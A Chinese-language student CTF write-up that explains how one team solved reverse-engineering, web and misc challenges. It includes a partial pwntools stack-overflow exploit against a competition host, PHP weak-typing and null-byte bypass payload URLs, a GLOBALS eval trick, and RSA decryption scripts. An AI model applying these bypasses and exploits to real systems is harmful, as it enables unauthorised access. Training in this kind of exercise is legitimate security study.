


###  班级对抗赛
@(比赛writeup)
### 队伍名称、队伍成员
  队伍名称：163facker
  队伍成员:   徐若添、屈娇、陈诗梦
### 解决题目
解决题目：
RE：送分题、pwnfun、爆破
misc: 签到、热身upupup、计算题哦、芬奇的日记、RRRSA
web: web1、送分代码审计、web2、Amazing magic、Love China、加0题

### 解题思路
#### Re
1.送分题
下载下来，扔到od,因为是送分题，也不想太复杂，搜索一下ascii，看到一串base64 


flag:D0g3{Re_1s_v3ry_ea5y!}

2.pwnfun
根据题目所说一个很简单的栈溢出，开始以为是写shellcode之类的利用，后来发现出题人心软了
直接用ida反编译查看如下：


溢出点很明显，变量v4距离rbp为0x88个字节，却读入了0x100个字节
emmmm
开始的想法是写shell code利用，因为泄露栈地址很麻烦，得不到shellcode的地址，所以不行，很头大
后来，看ida发现出题人心软了，给了一个函数good_game

所以就很简单了，栈溢出控制返回地址，进而控制rip跳转到good_game函数执行即可
exp如下
```
from pwn import *

HOST = '222.18.158.244'
PORT = 2333

payload = 'a' * over_len
payload += p64(buf_addre)

io.recvuntil('Input your message:\n')
io.sendline(payload)
io.interactive()
```


3.爆破
运行文件，Admin已经给出了，应该是获取文本框内容然后比对即可


题目给出爆破的提示，老老实实爆破
找到关键的流程处


往下执行，将全部跳转改到指向成功的函数那即可得到flag
D0g3{Winner_Winner_Chicken_Dinner!}
#### web
1.web1
进去直接源码出来，
看到最后一行，eval("var_dump($$args)")  可变变量，传一个全局数组变量。args=GLOBALS


2.送分代码审计
看源码啥也没有，考虑源码泄露。而且源码里面base64也提示了


down下来，看到源码的意思是`$flag1 && $flag2 && $flag3` 都为真，就可以出flag。那本地调试一下。构造出payload: 
`http://45.32.90.22:2501/index.php?name=xiaohong&&sex=nv&&key=240610708&&pen=240610708&&apple=QNKCDZO`
这里源码中考察了php弱类型，`==`和`===`的区别
这里
因为出现了比较，而在0e中是读取的科学计数法，构造出来的key的md5也是0e就ok，故构造$key = "240610708";
下面 同理构造。
payload如上，

这里给一个学习php弱类型的网站：https://www.cnblogs.com/Mrsm1th/p/6745532.html

3.web2
这里看到源码，strlen可以通过%00来截断绕过，id==0 随便测试传个值，b需要绕过eregi 用00截断 data通过使用伪协议绕过stripos
payload:


4.Amazing magic
post随便传个值后在页源码中发现一句提示


接着post key=source


得到源码，源码要让number==14598366 但是字符并不能相同，所以这里想到通过转换进制 使用两个进制进行比较  把14598366转换为16进制得到0xdec0de
所以key=0xdec0de


5.Love China
这个题要点100万次，可能不行。这里本来是想会不会有什么脚本可以跑。但是，看了一下F12。改js啊，修改clicks的值，抓包，传一个大于1000000的值，就出来了。


6.加0题


页面给出robo.txt提示
访问


url编码，传输过去后会被默认解码一次，所以将jia0编码两次，再传入就可以得到flag


#### Misc
1.热身upupup
音频隐写，没有密码提示。直接扔Au

摩斯电码：..- ..- ..- - ..- - ..- ..- -

D0g3{UUUTUTUUT}
2.计算题哦

长度被限制，直接改一下length
出现的弹窗，base64解码

3.芬奇的日记
 下载下来是一张png图片，先放到kali看看能不能分离 
 

 发现有两张png图片，那么就dd分离
 
 得到了一张二维码的图片
 
用stegsolve打开调制Gray bits得到二维码

 然后扫描得到下面的一串编码
 
 
 Base64解一下得flag
 

4.RRRSA
首先还是要学习一下RSA算法是什么，下面贴一下学习的地方。
http://bobao.360.cn/learning/detail/3058.html
在这里主要思路就是先通过n计算出p,q，通过p,q再计算出d，之后就可以求出m。
就在我上面贴的网址里面有可以求出p,q的值的网址。

解出来p,q的值。

写一个py脚本跑一下d的值。

```
def egcd(a, b):
    if a == 0:
        return (b, 0, 1)
    else:
        g, y, x = egcd(b % a, a)
        return (g, x - (b // a) * y, y)
def modinv(a, m):
    g, x, y = egcd(a, m)
    if g != 1:
        raise Exception('modular inverse does not exist')
    else:
        return x % m

p = 17
q = 40945572069996101
e = 65537
d=modinv(e,(p-1)*(q-1))

print(d)
```
跑出来d的值。

继续写一个脚本，出m的值。这里因为学艺不精，只能一直修改c的一行一行的值来解密。

```
c=185467894761485820
d=232174645015238273
n=696074725189933717
m=pow(c,d,n)
print hex(m)[2:len(hex(m))-1].decode('hex')
```
这里c的值，要一行一行的换

这里就贴一部分了，最后解出来，就是这样。

